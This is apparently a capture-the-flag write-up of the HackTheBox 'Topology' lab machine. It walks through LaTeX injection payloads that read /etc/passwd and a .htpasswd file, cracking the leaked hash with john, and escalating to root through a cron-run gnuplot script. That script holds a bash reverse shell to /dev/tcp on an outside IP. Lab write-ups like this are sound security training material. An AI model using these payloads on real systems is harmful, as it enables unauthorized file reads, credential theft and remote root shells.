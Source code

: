 ```yaml
---
layout: post
title: "HTB: Topology"
author: Andrew Cherney
date: 2023-11-05 15:25:18
tags: htb easy-box linux LaTeX john gnuplot
icon: "assets/icons/topology.png"
post_description: "If obscure math programming languages and plotting tools are up your wheelhouse then this box will be a breeze. An interesting look at the vulnerabilities that lie waiting within academia though either outdated or improperly used tools."
---
```


<h1>Summary</h1>

{{ page.post_description }}

<h1>Enumeration</h1>

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Topology]
└──╼ $nmap -A -sC 10.10.11.217
Starting Nmap 7.92 ( https://nmap.org ) at 2023-07-23 17:06 CDT
Nmap scan report for 10.10.11.217
Host is up (0.050s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 dc:bc:32:86:e8:e8:45:78:10:bc:2b:5d:bf:0f:55:c6 (RSA)
|   256 d9:f3:39:69:2c:6c:27:f1:a9:2d:50:6c:a7:9f:1c:33 (ECDSA)
|_  256 4c:a6:50:75:d0:93:4f:9c:4a:1b:89:0a:7a:27:08:d7 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Miskatonic University | Topology Group
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

```bash
echo "10.10.11.217 topology.htb" >> /etc/hosts
```

<h2>Port 80 - http</h2>

{% include img_link src="/img/topology/Topology_front_page" alt="front_page" ext="png" trunc=600 %}

We're greeted with an academic group's accomplishments and projects. Skimming the page we come across one link to a subdomain of ```latex.topology.htb``` so we'll throw that into my hosts file too.

While the topic of subdomains is here why don't we toss a gobuster scan to find other subdomains.

```bash
gobuster vhost -u http://topology.htb -w /opt/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt
```

We find `dev` and `stats` subdomains as well. 

![Stats page](/img/topology/Topology_stats_page.png)

Network stats available for us to look at, nothing special here. On the `dev` subdomain we are prompted for a username and password. This could indicate there is a `.htpasswd` and `.htaccess` within the directory this is hosted at. We'll keep that in mind if we get LFI. 

Lastly let's see what `latex` has to offer. It looks to be a text to image converter for LaTeX to simplify embedding equations in papers and websites. As of note this page is `equation.php` and if I traverse to the root directory I can see a load of test images and `.tex` files.

![LaTeX equation page](/img/topology/Topology_latex_equation_gener.png)

![LaTeX root directory](/img/topology/Topology_root_direcroty_latex.png)

A small nugget of info the `headers.tex` file mentions vdaisley which could be the user we compromise. 

<h1>User as vdaisley</h1>

<h2>LaTeX Injection</h2>

I dug around for some info surrounding LaTeX and came across [this injection payload list from PayloadAllThethings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/LaTeX%20Injection). I try all of them till I notice that two *work*:

```tex
\newread\file
\openin\file=/etc/passwd
\read\file to\line
\text{\line}
\closein\file
```

![etc passwd test](/img/topology/Topology_etcpasswd_test.png)

```tex
\lstinputlisting{/usr/share/texmf/web2c/texmf.cnf}
```

The first payload only loads one line whereas the second doesn't show anything but doesn't error out as if the syntax is incorrect. It is of note there is some filter here to prevent users from injecting commands and these two either aren't on the list or bypass it somehow. 

So some time later in searching for LaTeX related exploits I find [this stackexchange talk about inline ](https://tex.stackexchange.com/questions/503/why-is-preferable-to) which is a talk about surrounding characters and which to use. There are three mentioned, `\[`, `$$`, and `$`. Since my second payload was the one that errored out I decided to try these around it for any change in behavior. 

```
$\lstinputlisting{/etc/passwd}$
```

And that ladies and gentlemen displays the entire contents of a file in image form.
The reason this seems to work is those symbols are known as inline math delimiters and force the resulting "equation" to be rendered inline and added to the result rather than being the result. Could be wrong on that. It is of note in [this LaTeX expression guide](https://www.overleaf.com/learn/latex/Mathematical_expressions) there are two other inline delimiters of `\(...\)` and `\begin{math}...\end{math}`, the first errors out and the second is caught as an illegal command. 

Now we loop back to the beginning where we remember `dev` was gated by a password and username. 


```tex
$\lstinputlisting{/var/www/dev/.htpasswd}$
```

```
vdaisley:$apr1$1ONUB/S2$58eeNVirnRDB5zAIbIxTY0
```

<h2>john</h2>

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Topology]
└──╼ $john hash --wordlist=/opt/wordlists/rockyou.txt
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 SSE2 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
calculus20       (?)
1g 0:00:00:06 DONE (2023-07-23 19:36) 0.1655g/s 164852p/s 164852c/s 164852C/s calebd1..caitlyn09
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

```bash
┌─[✗]─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Topology]
└──╼ $ssh vdaisley@topology.htb
vdaisley@topology.htb's password: 
Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-150-generic x86_64)


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update

vdaisley@topology:~$ cat user.txt 
4a842033fc2079------------------
```

<h1>Root</h1>

<h2>pspy64</h2>

In my normal enumeration of SUIDs, capabilities, and pspy I come across a looping set of scripts.

```
2023/07/23 21:04:05 CMD: UID=0     PID=1      | /sbin/init 
2023/07/23 21:05:01 CMD: UID=0     PID=2501   | /usr/sbin/CRON -f 
2023/07/23 21:05:01 CMD: UID=0     PID=2500   | /usr/sbin/CRON -f 
2023/07/23 21:05:01 CMD: UID=0     PID=2503   | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/23 21:05:01 CMD: UID=0     PID=2502   | /bin/sh -c /opt/gnuplot/getdata.sh 
2023/07/23 21:05:01 CMD: UID=0     PID=2504   | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/23 21:05:01 CMD: UID=0     PID=2507   | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/23 21:05:01 CMD: UID=0     PID=2506   | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/23 21:05:01 CMD: UID=0     PID=2505   | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/23 21:05:01 CMD: UID=0     PID=2508   | /usr/sbin/CRON -f 
2023/07/23 21:05:01 CMD: UID=0     PID=2514   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/07/23 21:05:01 CMD: UID=0     PID=2513   | find /opt/gnuplot -name *.plt -exec gnuplot {} ; 
2023/07/23 21:05:01 CMD: UID=0     PID=2512   | sed s/,//g 
2023/07/23 21:05:01 CMD: UID=0     PID=2511   | cut -d  -f 3 
2023/07/23 21:05:01 CMD: UID=0     PID=2510   | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/23 21:05:01 CMD: UID=0     PID=2509   | /bin/sh /opt/gnuplot/getdata.sh 
2023/07/23 21:05:01 CMD: UID=0     PID=2517   | gnuplot /opt/gnuplot/networkplot.plt 
```

<h2>gnuplot priv esc</h2>

Initially it seemed worthwhile to try and trick root into running that non-existent CRON file but I didn't have access to change sbin. The other part gnuplot though I found [this priv esc method using a malicious .plt file](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/gnuplot-privilege-escalation/). 

```bash
vdaisley@topology:~$ touch /opt/gnuplot/test.plt
vdaisley@topology:~$ nano /opt/gnuplot/test.plt
vdaisley@topology:~$ cat /opt/gnuplot/test.plt
system "whoami"

# Reverse shell
system "bash -c 'bash -i >& /dev/tcp/10.10.14.10/7777 0>&1'"
vdaisley@topology:~$ 
```

We're in luck I can add files to opt despite being unable to view that directory or change existing files. Now I can set up netcat and wait.

```bash
┌─[raccoon@cyberraccoon-virtualbox]─[~/_hacking/HackTheBox/Active/Topology]
└──╼ $nc -nvlp 7777
listening on [any] 7777 ...
connect to [10.10.14.10] from (UNKNOWN) [10.10.11.217] 53262
bash: cannot set terminal process group (2527): Inappropriate ioctl for device
bash: no job control in this shell
root@topology:~# cat /root/root.txt
cat /root/root.txt
78114b488eb8--------------------
```

